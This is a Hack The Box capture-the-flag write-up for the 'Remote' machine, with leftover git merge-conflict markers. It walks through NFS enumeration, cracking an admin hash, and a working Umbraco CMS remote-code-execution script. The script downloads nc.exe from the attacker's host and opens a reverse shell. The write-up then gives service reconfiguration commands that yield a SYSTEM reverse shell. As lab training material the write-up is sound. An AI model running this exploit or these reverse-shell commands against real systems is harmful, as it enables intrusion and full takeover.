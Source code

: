 ```yaml
---
title:  "Hack The Box - Remote"
date:   2020-03-21
categories: [ctf]
<<<<<<< HEAD
tags: [linux, Kali, Pentest, writeups, ctf, rdp, Remote-Desktop]
---
```

My write-up / walktrough for Remote on Hack The Box. 

As long as the machine isn't retired on HTB, you need the root-flag to encrypt the following pdf!

[WriteUp Remote as PDF](https://www.dropbox.com/s/nef988gu7xur46x/2020-03-21-hack-the-box-remote.pdf?dl=1)
=======
tags: [linux, Active Directory, Kali, Pentest, writeups, ctf, rdp, Remote-Desktop]
---
My write-up / walktrough for Remote on Hack The Box. 

## Quick summary
Recently, Remote got retired and I'm now allowed to publish my write-up.
I added the box to `/etc/hosts` as `remote.htb` with it's ip `10.10.10.180`

![infocard](/images/remote/infocard.png)

## Enumeration
As allways, I started with some enumeration and scanned `remote.htb` with `nmap -sTV -p 1-10000 -oN nmap_tcp_scan remote.htb`

![nmap](/images/remote/nmap.png)

I found a couple of open ports and services to poke around there. `ftp` seemed to be a dead end, but I was able to show and mount a `nfs-share` on port 2049

```shell
faebu@kali:showmount -e remote.htb
faebu@kali:mkdir /tmp/infosec
faebu@kali:sudo mount -t nfs remote.htb:/site_backups /tmp/infosec
```
By enumerating the content on `/tmp/infosec`, I realized that the share contained a backup of a webseite, run by the `Umbraco-CMS`. I was not able to load the database on `App_Data/Umbraco.sdf` with a tool, but I could grab a hash by inspecting the file manually with an editor.
`admin@htb.local b8be16afba8c314ad33d812f22a04991b90e2aaa`

## crack the hash
I tried to crack the hash online and found instantly a match. `b8be16afba8c314ad33d812f22a04991b90e2aaa -> baconandcheese`

![crackstation](/images/remote/crackstation.png)

## Exploitation
With this credentials, I was able to log in the cms.
![logincms](/images/remote/loginCMS.png)

Now, the next step was to lookout for a possibility to take advantage of the gathered credentials, so I checked if there are some `remote code execution vulnerabilities` with `Umbraco`. Indead, I found an interesting proof of concept on [www.exploit-db.com](https://www.exploit-db.com/exploits/46153), which I had to modify as follows:

```python
# Exploit Title: Umbraco CMS - Remote Code Execution by authenticated administrators

# Dork: N/A

# Date: 2019-01-13

# Exploit Author: Gregory DRAPERI & Hugo BOUTINON, adapted by jaeflo

# Vendor Homepage: http://www.umbraco.com/

# Software Link: https://our.umbraco.com/download/releases

# Version: 7.12.4

# Category: Webapps

# Tested on: Windows IIS

# CVE: N/A
import requests;
from bs4 import BeautifulSoup;

def print_dict(dico):

    print(dico.items());

# Execute a reverse shell with nc
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "mkdir /tmp;iwr -uri http://10.10.xx.xx:80/nc.exe -outfile /tmp/nc.exe;/tmp/nc.exe 10.10.xx.xx 443 -e cmd.exe"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';

login = "admin@htb.local";

password="baconandcheese";

host = "http://remote.htb";

# Step 1 - Get Main page

s = requests.session()

url_main =host+"/umbraco/";

r1 = s.get(url_main);

# Step 2 - Process Login

url_login = host+"/umbraco/backoffice/UmbracoApi/Authentication/PostLogin";

loginfo = {"username":login,"password":password};

r2 = s.post(url_login,json=loginfo);

# Step 3 - Go to vulnerable web page

url_xslt = host+"/umbraco/developer/Xslt/xsltVisualize.aspx";

r3 = s.get(url_xslt);

soup = BeautifulSoup(r3.text, 'html.parser');

VIEWSTATE = soup.find(id="__VIEWSTATE")['value'];

VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value'];

UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN'];

headers = {'UMB-XSRF-TOKEN':UMBXSRFTOKEN};

data = {"__EVENTTARGET":"","__EVENTARGUMENT":"","__VIEWSTATE":VIEWSTATE,"__VIEWSTATEGENERATOR":VIEWSTATEGENERATOR,"ctl00$body$xsltSelection":payload,"ctl00$body$contentPicker$ContentIdValue":"","ctl00$body$visualizeDo":"Visualize+XSLT"};

# Step 4 - Launch the attack

r4 = s.post(url_xslt,data=data,headers=headers);

print("End");
```
The exploit loads the file nc.exe to `remote.htb`, so I also had to start a local webserver on my machine and provide there the requested file.

Before executing the exploit, I had to start a local netcat-instance in listening mode. After executing the exploit, I got a revershell on my machine and was able to grab the user flag with it.

![reverseshell](/images/remote/reverseshell.png)

## Privilege Escalation
Now, I had to enumerate the system a bit further. I decided to upload winPEASany.exe to remote.htb. I did this by tweaking the exploit for the reverse shell so that it opened a powershell instead of cmd.exe.
```
/tmp/nc.exe 10.10.xx.xx 443 -e powershell.exe
```
and uploaded the exe afterwards with `iwr`.
![upload](/images/remote/winpeaUpload.png)

The tool found numerous misconfiguration and possible attack-vectors, but to me, the most promising part was, that the actual logged in user is able to modify the `Update Orchestrator Service`

![privesc](/images/remote/privesc.png)

there are many explenation found on the internet how to take advantage of this fact. I followed the steps which [hipotermia](https://hipotermia.pw/htb/querier) described on his walkthrough of the `HTB-Box Querier` to reconfigure `UsoSvc` to get a reverse shell as `System`. 

```bash
PS C:\tmp> sc.exe stop UsoSvc
PS C:\tmp> sc.exe config usosvc binPath="C:\tmp\nc.exe 10.10.xx.xx 6868 -e cmd.exe"
PS C:\tmp> sc.exe qc usoSvc
```
![usosvc](/images/remote/usosvc_conf.png)

## Root the box
Once I started the `Update Orchestrator Service` `(sc.exe start usosvc)`, I got a reverseshell as `System`

![rootshell](/images/remote/rootshell.png)

As the Service last just for a couple of seconds, we have to be quick to gather the flag ;-)

![rootflag](/images/remote/rootflag.png)

## Conclusion 
Great box and a lot of fun. I had a pretty hard time to get to user, got stuck plenty of times with loose ends, but once I got user-access, I got root pretty fast as well. Unfortunately, the box is called `Remote` and I noticed well the `Teamviewer-Service`, but to be honest, I had no clue how to proceed on it. So I would say, I got the root flag, but not the intended way :-/

**Thanks** and respect to [Hack The Box](https://www.hackthebox.eu/) for providing this great box.
>>>>>>> remote
